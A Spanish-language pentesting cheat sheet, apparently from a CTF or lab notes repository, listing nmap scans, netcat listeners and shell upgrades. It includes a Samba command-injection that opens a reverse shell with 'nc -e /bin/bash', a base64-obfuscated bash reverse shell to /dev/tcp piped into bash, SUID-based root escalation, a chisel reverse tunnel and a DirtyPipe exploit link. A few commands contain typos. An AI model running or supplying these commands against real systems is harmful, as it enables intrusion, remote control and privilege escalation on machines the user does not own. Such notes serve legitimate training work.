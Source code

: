# Comandos interesantes

## NMAP

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

Puertos UDP, Los primeros 100
<pre>
nmap -sU -sCV -p1-100 192.168.168.193 -oN targetedUDP
</pre>

Especifico de vulnerabilidades sin intrusión
<pre>
nmap -p139,445 --script="Vuln and Safe" 192.168.168.193 -oN vulnScan 
</pre>

Enumeracion de directorios WEB básicos
<pre>
nmap --script http-enum -p80 10.10.10.180 -oN webScan
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

Si la consola nos da problemas con **script /dev/null -c bash** podemos prbar con python:

</pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

Fijarse bien en la IP que conecta.


## Metasploit

### Iniciar la primera vez

Arrancamos servicio de base de datos
<pre>
sudo service postgresql start
</pre>

Inicamos bbdd de metasploit

<pre>
sudo msfdb init
</pre>

Despues como siempre

<pre>
msfconsole
</pre>

## MYSQL

Tener en cuanta la utilidad **mysqlshow** para enumerar.

<pre>
mysqlshow -uadmin -padmin
</pre>

Ejecutar sentencia inline:
<pre>
mysql -uadmin -padmin -c "select * from ..." dbname
</pre>

## PYTHON

### Permisos de superusuario con privilegios a la consola

<pre>
impor os;
os.system("chmod u+s /bin/bash")
</pre>

Y luego **bash -p**

## Puertos
ver si un puerto está abierto en linux:

~~~
lsof -i:8888
~~~ 

## CHISEL

### Servidor

~~~
sudo ./chisel server --reverse -p 1234
~~~

### Cliente a un puerto

~~~
chisel.exe client 172.16.196.198:1234 R:8888:127.0.0.1:8888
~~~
## OTROS

Ver trazas icmp:

<pre>
sudo tcpdump -i tun0 icmp -n
</pre>



Nos mandamos consola:

<pre>
echo 'bash -i >& /dev/tcp/192.168.168.212/443 0>&1' | base64 

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2OC4yMTIvNDQzIDA+JjEK' | base64 -d | bash

</pre>

Para buscar ficheros con permisos suid

<pre>

find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null


</pre>

Permisos de superusuario a la consola:

<pre>
#!/bin/bash

chmod u+s /bin/bash
</pre>
Al tener pkexec utilizamos:

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit


Si en la lista de pribilehios aparece **/usr/bin/find**

<pre>
/usr/bin/find . -exec /bin/sh -p \; -quit
</pre>

